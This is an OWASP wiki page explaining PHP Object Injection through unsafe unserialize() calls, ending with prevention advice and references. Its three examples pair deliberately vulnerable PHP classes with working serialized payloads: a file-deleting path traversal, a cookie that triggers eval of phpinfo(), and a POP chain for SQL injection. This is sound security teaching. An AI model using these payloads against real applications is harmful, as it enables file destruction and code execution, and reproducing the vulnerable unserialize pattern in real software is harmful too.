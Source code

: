 ```yaml
---

layout: col-sidebar
title: PHP Object Injection
author: Egidio Romano 
contributors: 
permalink: /vulnerabilities/PHP_Object_Injection
tags: vulnerability, PHP Object Injection
auto-migrated: 1

---
```


Author(s):
- Egidio Romano


[Vulnerabilities Table of Contents](ASDR_TOC_Vulnerabilities "wikilink")

## Description

PHP Object Injection is an application level vulnerability that could
allow an attacker to perform different kinds of malicious attacks, such
as [Code Injection](Code_Injection "wikilink"), [SQL
Injection](SQL_Injection "wikilink"), [Path
Traversal](Path_Traversal "wikilink") and [Application Denial of
Service](Application_Denial_of_Service "wikilink"), depending on the
context. The vulnerability occurs when user-supplied input is not
properly sanitized before being passed to the unserialize() PHP
function. Since PHP allows object serialization, attackers could pass
ad-hoc serialized strings to a vulnerable unserialize() call, resulting
in an arbitrary PHP object(s) injection into the application scope.

In order to successfully exploit a PHP Object Injection vulnerability
two conditions must be met:

  - The application must have a class which implements a PHP magic
    method (such as __wakeup or __destruct) that can be used to
    carry out malicious attacks, or to start a "POP chain".
  - All of the classes used during the attack must be declared when the
    vulnerable unserialize() is being called, otherwise object
    autoloading must be supported for such classes.

## Examples

**Example 1**

The example below shows a PHP class with an exploitable __destruct
method:

    class Example1
    {
       public $cache_file;

       function __construct()
       {
          // some PHP code...
       }

       function __destruct()
       {
          $file = "/var/www/cache/tmp/{$this->cache_file}";
          if (file_exists($file)) @unlink($file);
       }
    }

    // some PHP code...

    $user_data = unserialize($_GET['data']);

    // some PHP code...

In this example an attacker might be able to delete an arbitrary file
via a [Path Traversal](Path_Traversal "wikilink") attack, for e.g.
requesting the following URL:

    http://testsite.com/vuln.php?data=O:8:"Example1":1:{s:10:"cache_file";s:15:"../../index.php";}

**Example 2**

The example below shows a PHP class with an exploitable __wakeup
method:

    class Example2
    {
       private $hook;

       function __construct()
       {
          // some PHP code...
       }

       function __wakeup()
       {
          if (isset($this->hook)) eval($this->hook);
       }
    }

    // some PHP code...

    $user_data = unserialize($_COOKIE['data']);

    // some PHP code...

In this example an attacker might be able to perform a [Code
Injection](Code_Injection "wikilink") attack by sending an HTTP request
like this:

    GET /vuln.php HTTP/1.0
    Host: testsite.com
    Cookie: data=O%3A8%3A%22Example2%22%3A1%3A%7Bs%3A14%3A%22%00Example2%00hook%22%3Bs%3A10%3A%22phpinfo%28%29%3B%22%3B%7D
    Connection: close

Where the cookie parameter "data" has been generated by the following
script:

    class Example2
    {
       private $hook = "phpinfo();";
    }

    print urlencode(serialize(new Example2));

**Example 3**

This last example shows how it is possible to perform a [SQL
Injection](SQL_Injection "wikilink") attack using a "POP chain", for
instance by leveraging a __toString method like this:

    class Example3
    {
       protected $obj;

       function __construct()
       {
          // some PHP code...
       }

       function __toString()
       {
          if (isset($this->obj)) return $this->obj->getValue();
       }
    }

    // some PHP code...

    $user_data = unserialize($_POST['data']);

    // some PHP code...

If the $user_data variable is an "Example3" object and it will be
treated like a string somewhere in the code, then its __toString
method will be called. Since this method will call the getValue method
of the object stored into the "obj" property, it's possible to set that
property to an arbitrary object, and execute its getValue method, if it
is accessible, otherwise its __call method will be called, if it is
defined. For the sake of ease, just think that when unserialize() is
called, the class below is available within the application scope (or
supported by autoloading):

    class SQL_Row_Value
    {
       private $_table;

       // some PHP code...

       function getValue($id)
       {
          $sql = "SELECT * FROM {$this->_table} WHERE id = " . (int)$id;
          $result = mysql_query($sql, $DBFactory::getConnection());
          $row = mysql_fetch_assoc($result);

          return $row['value'];
       }
    }

In this example an attacker might be able to perform a [SQL
Injection](SQL_Injection "wikilink") attack by sending a POST request
containing a "data" parameter generated by a script like this:

    class SQL_Row_Value
    {
       private $_table = "SQL Injection";
    }

    class Example3
    {
       protected $obj;

       function __construct()
       {
          $this->obj = new SQL_Row_Value;
       }
    }

    print urlencode(serialize(new Example3));

## Related [Controls](https://owasp.org/www-community/controls/)

  - [:Input Validation](:Input_Validation "wikilink")
  - [:Static Code Analysis](:Static_Code_Analysis "wikilink")

## Prevention

Do not use unserialize() function with user-supplied input, use JSON
functions instead.

## References

  - [PHP:
    unserialize](http://php.net/manual/en/function.unserialize.php)
  - [PHP: Magic
    Methods](http://php.net/manual/en/language.oop5.magic.php)
  - [PHP: Autoloading
    Classes](http://php.net/manual/en/language.oop5.autoload.php)
  - [PHP RFC: Secured
    unserialize()](https://wiki.php.net/rfc/secure_unserialize)
  - [Shocking News in PHP
    Exploitation](https://www.owasp.org/images/f/f6/POC2009-ShockingNewsInPHPExploitation.pdf)
    Stefan Esser, POC 2009
  - [Utilizing Code Reuse/ROP in PHP Application
    Exploits](https://www.owasp.org/images/9/9e/Utilizing-Code-Reuse-Or-Return-Oriented-Programming-In-PHP-Application-Exploits.pdf)
    Stefan Esser, BlackHat USA 2010

[Category:Injection](Category:Injection "wikilink")